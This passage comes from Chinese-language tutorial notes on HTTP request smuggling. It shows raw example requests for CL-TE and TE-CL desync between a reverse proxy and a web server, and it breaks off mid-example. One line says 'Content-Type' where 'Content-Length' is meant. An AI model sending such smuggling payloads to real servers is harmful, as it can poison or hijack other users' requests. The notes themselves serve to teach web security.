       2333\r\n
      ```

    * Web应用服务器的缓冲区将变成如下内容

      ```http
      MPOST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 6
      
      2333\r\n
      ```

    * 此时正常用户的Request方法被污染成MPost，无法被正常解析

  * CL-TE

    * 同上，恶意请求如下

      ```http
      POST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0\r\n
      \r\n
      M
      ```

    * 假设反向代理服务器在有Content-Length和Transfer-Encoding时解析Content-Length，那么它将把整个请求转发给Web应用服务器

    * 假设Web应用服务器在有Content-Length和Transfer-Encoding时解析Transfer-Encoding的话，那么`0\r\n\r\n`将被识别为请求体的结束。因此，Web应用服务器将从缓冲区中取出以下请求

      ```http
      POST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0\r\n
      \r\n
      ```

    * 此时缓冲区中内容为`M`，该部分内容会污染下一个请求的请求方法。

    * 当然如果将遗留下的内容构造成一个新请求，造成了HTTP请求走私。

  * TE-CL

    * 即反向代理服务器处理Transfer-Encoding，Web应用服务器处理Content-Type

    * 同上，当恶意请求为如下内容

      ```http
      POST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 4
      Transfer-Encoding: chunked
      